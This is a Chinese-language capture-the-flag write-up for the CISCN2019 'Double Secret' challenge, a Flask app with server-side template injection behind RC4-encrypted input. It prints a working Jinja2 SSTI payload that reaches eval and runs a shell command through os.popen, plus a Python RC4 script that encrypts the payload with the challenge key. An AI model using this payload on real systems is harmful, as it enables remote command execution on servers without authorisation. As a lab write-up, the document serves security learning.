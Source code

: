 # [CISCN2019 华东南赛区]Double Secret

## 知识点

`rc4`

`flask debug`

## 解题

首先题目提示

![](./img/[CISCN2019 华东南赛区]Double Secret-1.png)

然后找到`robots.txt`，也没发现什么信息

![](./img/[CISCN2019 华东南赛区]Double Secret-2.png)

然后再`/secret`发现了

![](./img/[CISCN2019 华东南赛区]Double Secret-3.png)

尝试传入参数报错看源码

![](./img/[CISCN2019 华东南赛区]Double Secret-4.png)

发现有`SSTI`，需要我们`payload`进行`RC4`加密，密钥为`HereIsTreasure`

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}{% endif %}{% endfor %}
```

使用网上的脚本加密

[参考文章1](https://www.jianshu.com/p/d9ad5fc524ec)

[参考文章2](https://www.cnblogs.com/h3zh1/p/12653579.html)

```python
import base64
from urllib import parse

def rc4_main(key = "init_key", message = "init_message"):#返回加密后得内容
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return  crypt

def rc4_init_sbox(key):
    s_box = list(range(256)) 
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    return s_box
def rc4_excrypt(plain, box):
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    cipher = "".join(res)
    return (str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))

key = "HereIsTreasure"  #此处为密文
message = input("请输入明文:\n")
enc_base64 = rc4_main( key , message )
enc_init = str(base64.b64decode(enc_base64),'utf-8')
enc_url = parse.quote(enc_init)
print("rc4加密后的url编码:"+enc_url)
#print("rc4加密后的base64编码"+enc_base64)
```

![](./img/[CISCN2019 华东南赛区]Double Secret-5.png)

![](./img/[CISCN2019 华东南赛区]Double Secret-6.png)

![](./img/[CISCN2019 华东南赛区]Double Secret-7.png)


